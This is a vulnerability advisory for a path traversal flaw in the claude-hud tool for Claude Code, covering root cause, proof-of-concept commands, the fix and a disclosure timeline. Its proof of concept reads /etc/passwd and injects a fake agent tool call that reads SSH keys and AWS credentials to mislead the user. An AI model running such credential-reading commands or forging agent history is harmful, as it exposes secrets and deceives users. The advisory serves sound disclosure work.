



# CVE-2026-47091 — Path Traversal via transcript_path (Local File Inclusion)

## Summary

claude-hud accepts a `transcript_path` field from its stdin JSON and passes it directly to the transcript parser, which opens and reads any file the process can reach with no path restriction, allowlist, or file type check. An attacker who can control this value can read arbitrary files — including sensitive ones like `/etc/passwd`, SSH keys, or environment files. Every file accessed leaves a persistent cache entry on disk containing the absolute path, byte size, and modification timestamp of the file, which survives after the HUD exits.

---

## Metadata

| Field             | Value                                                                 |
|-------------------|-----------------------------------------------------------------------|
| CVE ID            | CVE-2026-47091                                                        |
| GHSA ID           | N/A (assigned by VulnCheck)                                           |
| Severity          | **Medium**                                                            |
| CVSS v4 Score     | 4.8 — `CVSS:4.0/AV:L/AC:L/AT:N/PR:L/UI:N/VC:L/VI:N/VA:N/SC:N/SI:N/SA:N` |
| CWE               | CWE-22: Improper Limitation of a Pathname to a Restricted Directory (Path Traversal) |
| Affected Versions | `<= 0.0.12`                                                           |
| Patched Version   | commit `234d9aa` (post-0.0.12)                                        |
| Affected Repo     | [jarrodwatts/claude-hud](https://github.com/jarrodwatts/claude-hud)  |
| Report Date       | 19 April 2026                                                         |
| Publish Date      | 18 May 2026                                                           |

---

## Vulnerability Details

### Root Cause

In `src/index.ts`, the `transcript_path` field is taken verbatim from the incoming stdin JSON and passed straight into `parseTranscript()`. The only check in the transcript parser is whether the file exists — if it does, the file is opened, stat'd, and read in full. There is no check that the path stays within an expected directory, no allowlist, and no file type restriction:

```typescript
// index.ts:64 — transcript_path taken directly from stdin with no validation
const transcriptPath = stdin.transcript_path ?? "";
const transcript = await deps.parseTranscript(transcriptPath);

// transcript.ts:187 — only guard is an existence check
if (!transcriptPath || !fs.existsSync(transcriptPath)) return result;
// If the file exists anywhere on the system → opened, stat'd, read in full
```

Every file accessed also leaves a persistent cache entry in `~/.claude/plugins/claude-hud/transcript-cache/`. The cache file was written with world-readable permissions (`0o666` default), making the forensic record of accessed paths visible to other users on the same system. On WSL systems this extends across the OS boundary into the Windows filesystem via `/mnt/c/`.

### Affected Files

`src/index.ts`, line 64 (source)
`src/transcript.ts`, lines 187–217 (sink), lines 165–178 (cache write)

### Vulnerable Code

```typescript
// transcript.ts:165-178 — cache written after every read, no path restriction
// { transcriptPath: "/etc/passwd", transcriptState: { mtimeMs: ..., size: 1428 } }
// persisted to ~/.claude/plugins/claude-hud/transcript-cache/<sha256>.json

// transcript.ts:187 — file opened with no boundary check
if (!transcriptPath || !fs.existsSync(transcriptPath)) return result;
const fileStream = createReadStreamImpl(transcriptPath);
```

---

## Proof of Concept

Point `transcript_path` at `/etc/passwd`:

```bash
echo '{"model":{"display_name":"Opus"},"context_window":{"current_usage":{"input_tokens":45000},"context_window_size":200000},"transcript_path":"/etc/passwd"}' \
  | node dist/index.js
```

The file is opened and stat'd. Check the cache to confirm:

```bash
ls -la ~/.claude/plugins/claude-hud/transcript-cache/
cat ~/.claude/plugins/claude-hud/transcript-cache/*.json
# {"transcriptPath":"/etc/passwd","transcriptState":{"mtimeMs":...,"size":1428},...}
```



**Cross-session data theft** — a crafted JSONL file can inject fake session names and tool history into the HUD rendering:

```bash
cat > /tmp/injected_session.jsonl << 'EOF'
{"type":"custom-title","customTitle":"EXFILTRATED_PROJECT_NAME"}
{"timestamp":"2026-04-19T00:00:00Z","type":"assistant","message":{"content":[{"type":"tool_use","id":"toolu_01","name":"Bash","input":{"command":"cat ~/.ssh/id_rsa && cat ~/.aws/credentials"}}]}}
EOF

echo '{"model":{"display_name":"Opus"},"context_window":{"current_usage":{"input_tokens":45000},"context_window_size":200000},"transcript_path":"/tmp/injected_session.jsonl"}' \
  | node dist/index.js
```

The injected session name and fake tool call history render in the HUD as if they were real.





---

## Impact

Any file readable by the process running claude-hud can be accessed by pointing `transcript_path` at it. The file's metadata (absolute path, size, mtime) is then written to a cache file that persists on disk after the HUD exits.

On shared systems the cache file was world-readable by default, meaning other local users could enumerate which files were accessed. On WSL this extends to the Windows filesystem, giving access to files under `/mnt/c/`.

A crafted JSONL file can also inject arbitrary session names and fake tool call history into the HUD display, which could be used to mislead a user about what Claude Code is actually doing.

---

## Fix

Fixed in commit [`234d9aa`](https://github.com/jarrodwatts/claude-hud/commit/234d9aad919b51326a43bcf90b45ae35c23afc30) by [jarrodwatts](https://github.com/jarrodwatts), PR [#487](https://github.com/jarrodwatts/claude-hud/pull/487).

Two changes were made in `src/transcript.ts`:

**1. Path canonicalisation via `fs.realpathSync()`** before any file access. If the path doesn't resolve (doesn't exist or is otherwise invalid) the function returns early:

```typescript
// Before — transcript_path used verbatim
const transcriptState = readTranscriptFileState(transcriptPath);

// After — path canonicalised first; returns early if resolution fails
function canonicalizeTranscriptPath(transcriptPath: string): string | null {
  try {
    return fs.realpathSync(transcriptPath);
  } catch {
    return null;
  }
}

const canonicalTranscriptPath = canonicalizeTranscriptPath(transcriptPath);
if (!canonicalTranscriptPath) return result;

const transcriptState = readTranscriptFileState(canonicalTranscriptPath);
```

The canonicalised path is then used consistently for all subsequent file reads and cache operations.

**2. Cache file permissions tightened to `0o600`** (owner read/write only):

```typescript
// Before — default umask applies, typically world-readable
fs.writeFileSync(cachePath, JSON.stringify(payload), 'utf8');

// After — restricted to owner only
fs.writeFileSync(cachePath, JSON.stringify(payload), { encoding: 'utf8', mode: 0o600 });
```

---

## Timeline

- **19 April 2026** — Vulnerability discovered and privately reported to jarrodwatts
- **22 April 2026** — Fix merged, commit [`234d9aa`](https://github.com/jarrodwatts/claude-hud/commit/234d9aad919b51326a43bcf90b45ae35c23afc30), PR [#487](https://github.com/jarrodwatts/claude-hud/pull/487)
- **18 May 2026** — CVE-2026-47091 published by VulnCheck

---

## References

- [VulnCheck Advisory](https://www.vulncheck.com/advisories/claude-hud-path-traversal-via-transcript-path)
- [GitHub Issue #485](https://github.com/jarrodwatts/claude-hud/issues/485)
- [Fix — PR #487](https://github.com/jarrodwatts/claude-hud/pull/487)
- [Fix — commit 234d9aa](https://github.com/jarrodwatts/claude-hud/commit/234d9aad919b51326a43bcf90b45ae35c23afc30)
- [CVE-2026-47091 on MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-47091)
- [jarrodwatts/claude-hud](https://github.com/jarrodwatts/claude-hud)